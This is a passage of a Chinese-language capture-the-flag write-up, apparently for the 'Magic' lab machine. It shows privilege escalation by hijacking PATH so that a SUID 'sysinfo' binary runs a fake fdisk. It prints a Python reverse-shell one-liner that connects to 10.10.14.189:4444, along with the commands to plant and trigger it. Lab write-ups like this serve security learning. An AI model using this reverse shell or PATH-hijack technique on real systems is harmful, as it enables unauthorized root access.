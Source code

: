 disk info

![image-20200627010350946]({{ site.url }}/assets/Magic_185.assets/image-20200627010350946.png)

cpu info

![image-20200627010419660]({{ site.url }}/assets/Magic_185.assets/image-20200627010419660.png)

men usage

![image-20200627010449328]({{ site.url }}/assets/Magic_185.assets/image-20200627010449328.png)

看输出内容应该是调用了系统命令

最常用的就是free和fdisk了。对比一下，果然。

![image-20200627010622548]({{ site.url }}/assets/Magic_185.assets/image-20200627010622548.png)

而fdisk是需要root权限的

![image-20200627010726832]({{ site.url }}/assets/Magic_185.assets/image-20200627010726832.png)

所以sysinfo所需的s权限应该就是在执行fdisk -l时的root权限。

![image-20200627011008394]({{ site.url }}/assets/Magic_185.assets/image-20200627011008394.png)

我们可以通过伪造环境变量，让sysinfo错误的以为我们在当前文件夹伪造的fdisk文件，是/sbin/fdisk命令

首先在/tmp文件夹下伪造fdisk，内容为python rshell命令。

```bash
vi fdisk
写入以下内容
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.189",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image-20200627012913333]({{ site.url }}/assets/Magic_185.assets/image-20200627012913333.png)

增加可执行权限

```bash
chmod +x fdisk
```

修改环境变量,并执行sysinfo

```bash
export PATH=/tmp:$PATH
/bin/sysinfo
```

![image-20200627013148644]({{ site.url }}/assets/Magic_185.assets/image-20200627013148644.png)

![image-20200627013212589]({{ site.url }}/assets/Magic_185.assets/image-20200627013212589.png)

